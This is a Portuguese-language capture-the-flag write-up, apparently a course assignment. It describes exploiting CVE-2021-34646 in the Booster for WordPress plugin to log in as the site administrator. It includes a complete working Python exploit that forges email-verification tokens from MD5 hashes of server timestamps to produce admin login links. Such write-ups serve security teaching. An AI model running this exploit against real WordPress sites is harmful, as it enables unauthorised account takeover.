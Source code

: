 # CTF3

O objetivo dos desafios desta semana era encontrar uma flag que seria revelada, após conseguir encontrar e explorar uma vulnerabilidade do website WordPress. Também havia certa informação sobre qual vulnerabilidade é que seria usada, pois tinha de ser uma relacionada em fazer login no WordPress com uma conta de admin, usando um exploit conhecido.
## Processo usado
 - ### Recolhimento de informacao através do site em questão:
    - #### Wordpress versão 5.8.1
    - #### Wordpress Plugin versão 5.7.3
    - #### Booster for Wordpress versão 5.4.3
    - #### Administrador com conta no site

 - ### Pesquisa por vulnerabilidade

Após analisar todos os fatores do 1º passo, nós começámos a procurar por vulnerabilidades no sistema, com base no que considerámos ser mais frágil de explorar.

Passado algum tempo de pesquisa, verificámos que a vulnerabilidade relacionada com Booster for Wordpress era um fator com que poderiamos explorar com maior facilidade.

 - ### Escolha da vulnerabilidade

 A escolha da vulnerabilidade também se relaciona com o nosso objetivo principal, que é entrar numa conta de admin no processo de login, e o exploit é algo familiar para nós.

 Tendo isto em mente acabámos por escolher o CVE-2021-34646, que através de uma vulnerabilidade do Booster for Wordpress, seria possível nós passarmos por um outro utilizador, nomeadamente um administrador, e no processo de login ativar um pedido de verificação de entrada na conta para o email. A verdadeira fraqueza encontra-se no random token generator, que gera um token único para cada conta, não estar optimizado para este tipo de ataque.

 [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646)

 Introduzimos o CVE na submissão de desafio 1 no formato desejado, assim concluindo esta etapa do processo.

 - ### Encontrar um exploit

 Após ter encontrado a vulnerabilidade, tivemos, então, de encontrar um exploit da mesma. Utilizando o website Exploit Database, conseguimos encontrar um exemplo de um exploit e o resto desta etapa baseou-se no recolhimento de informação sobre este exploit e como aproveitar dele. 

 Também associámos este recolhimento de informação ao recolhimento de informações do próprio site de WordPress que fizemos na primeira etapa. Concluimos que o utilizador com ID igual a 1 seria o da conta de administrador e com este conhecimento conseguimos ser mais precisos na exploração da vulnerabilidade em causa.
Codigo do exploit:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

 - ### Explorar a vulnerabilidade

 Agora que já organizámos todas as nossa ideias e conhecimentos sobre a vulnerabilidade e o exploit, tornou-se altura de o pôr em prática. Correndo, assim, o código de python ,o exploit da vulnerabilidade, conseguimos aceder a da conta de administrador (ID igual a 1) usando o link do WordPress que é nos dado no moodle como argumento do comando e o ID do administrador(tipicamente 1) como o ultimo argumento, recebendo no terminal 3 links, que pelo menos um deles iria dar acesso ao website já com a conta de administrador. 
![image](https://media.discordapp.net/attachments/1153998326274994216/1166681375554928650/image.png?ex=654b5fb3&is=6538eab3&hm=066380603f282d49b8d10ebdffa7312ec3ff69879313640cba5783029f6af1e7&=&width=744&height=458)

 Depois de já estar dentro do WordPress com a conta de administrador, o resto desta etapa e deste desafio resumiu-se em clicar num link fornecido no moodle, que nos leva direto à flag que era a solução deste desafio, já que estavamos com acesso da conta de admin a partir do momento que conseguimos fazer login.

![image2](https://media.discordapp.net/attachments/1153998326274994216/1166681425278414878/image.png?ex=654b5fbf&is=6538eabf&hm=ce864ee6dac1ff40003f224aa314ba5f941d11dcff0e1793eeb379342113dc72&=&width=731&height=458)
![image3](https://cdn.discordapp.com/attachments/1153998326274994216/1166681695634849862/image.png?ex=654b6000&is=6538eb00&hm=5ad0611c25e087e347735c5282c6539f4448c6b99f7d7354c04e7bb2386ab8de&)

